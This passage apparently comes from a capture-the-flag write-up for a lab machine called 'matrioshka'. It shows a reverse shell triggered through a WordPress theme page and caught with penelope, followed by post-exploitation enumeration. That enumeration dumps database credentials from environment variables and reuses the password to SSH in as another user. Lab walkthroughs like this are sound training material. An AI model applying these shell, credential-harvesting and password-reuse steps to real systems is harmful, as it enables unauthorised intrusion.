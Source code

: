After activation lets then load this `index.php` page 🔻
<br>
`http://mamushka.hmv/wp-content/themes/twentytwentytwo/`

---

## 6️⃣ Getting Shell

### Content:

From the reverse shell 🔻

```bash
└─$ penelope -p 4444
www-data@3ed5ddfe0e0c:/var/www$ whoami
whoami
www-data
www-data@3ed5ddfe0e0c:/var/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@3ed5ddfe0e0c:/var/www$ hostname
hostname
3ed5ddfe0e0c
www-data@3ed5ddfe0e0c:/var/www$ 
```
{: .nolineno }

I have used <b><span style="color:rgb(0, 83, 250)">penelope</span></b> because it helps me automatically stabilizing the shell and also into an interactive mode shell.

---

## 7️⃣ Post-Exploitation Enumeration

After shell as `www-data`, enumeration steps taken:
### 7.1 Environment variables (important discovery)

Listing `env` revealed WordPress DB credentials:

```text
WORDPRESS_DB_PASSWORD=xxxxxxxxxxx
WORDPRESS_DB_USER=matrioska
WORDPRESS_DB_NAME=wordpressdb
```
{: .nolineno }

This gave a password value that was later reused to SSH into `matrioshka`. The environment leak was the critical pivoting artifact.

Lets have a a shell on <b><span style="color:rgb(219, 0, 0)">matrioshka</span></b> user 🔻

```bash
─$ ssh matrioshka@10.0.2.47
matrioshka@10.0.2.47s password: 
Linux matrioshka 6.1.0-23-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.99-1 (2024-07-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Aug 22 19:12:21 2024 from 10.0.2.8
matrioshka@matrioshka:~$ ls -al
total 24
drwx------ 2 matrioshka matrioshka 4096 Aug 22  2024 .
drwxr-xr-x 3 root       root       4096 Aug 21  2024 ..
```